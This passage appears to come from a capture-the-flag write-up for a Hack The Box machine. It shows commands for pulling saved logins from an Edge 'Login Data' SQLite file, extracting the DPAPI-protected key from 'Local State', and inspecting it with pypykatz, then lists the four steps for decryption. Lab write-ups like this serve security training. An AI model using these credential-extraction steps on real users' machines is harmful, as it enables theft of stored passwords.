 On Kali -

```bash
root@kali$ file logindata 
logindata: SQLite 3.x database, last written using SQLite version 3038000, page size 2048, file counter 2, database pages 27, cookie 0x10, schema 4, UTF-8, version-valid-for 2
```

```bash
root@kali$ sqlite3 logindata
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
breached                logins_edge_extended    sync_entities_metadata
field_info              meta                    sync_model_metadata   
insecure_credentials    password_notes        
logins                  stats 
```

The `logins` table is where passwords are saved:

```bash
sqlite> .headers on
sqlite> select origin_url,username_value,password_value from logins;
origin_url|username_value|password_value
http://somewhere.com/login.html|bob.wood@windcorp.htb|v109?]2y1eOONtx#5mmЂmX=t
http://google.com/login.html|bob.wood@windcorp.htb|v10]HN/g%{g?h5PK Ff&ܷxu
http://webmail.windcorp.com/login.html|bob.woodADM@windcorp.com|v10iu25ƴ-'>lt<R>ȄakkmH
```

The passwords are encrypted. The key to decrypt them is saved in `Local State`:

```bash
root@kali$ cat localstate | jq -r .os_crypt.encrypted_key 
RFBBUEkBAAAA0Iyd3wEV0RGMegDAT8KX6wEAAAAJEL2orPLKQ5JmjgKfUD4REAAAAAoAAABFAGQAZwBlAAAAA2YAAMAAAAAQAAAAERo760RqlJ/1NQi4Mzu/ZgAAAAAEgAAAoAAAABAAAAAWAlikfH8o+jE6a5gX3L2aKAAAACAUAaTmAnujTfLRzhFqjgv7O9AUtBxQzQK2W+gZfUU0M8NHuoRD4a4UAAAAjFmocvQLwq3PeEzWRbAz1o7pQWM=
```

### Using [pypykatz](https://github.com/skelsec/pypykatz) to determine the GUID :

```bash
root@kali$ cat localstate | jq -r .os_crypt.encrypted_key | base64 -d | cut -c6- > blob
root@kali$ pypykatz dpapi describe blob blob 
== DPAPI_BLOB ==
version: 1 
credential_guid: b'\xd0\x8c\x9d\xdf\x01\x15\xd1\x11\x8cz\x00\xc0O\xc2\x97\xeb' 
masterkey_version: 1 
masterkey_guid: a8bd1009-f2ac-43ca-9266-8e029f503e11 
...[snip]...
```

To decrypt these logins, I’ll need to run four steps:

1.  Use the SID and password for the user to generate “prekeys”.
2.  Use the prekeys to decrypt the master password.
3.  Use the master password to decrypt the Edge password from `Local State`.
4.  Use the Edge password to decrypt the login data.
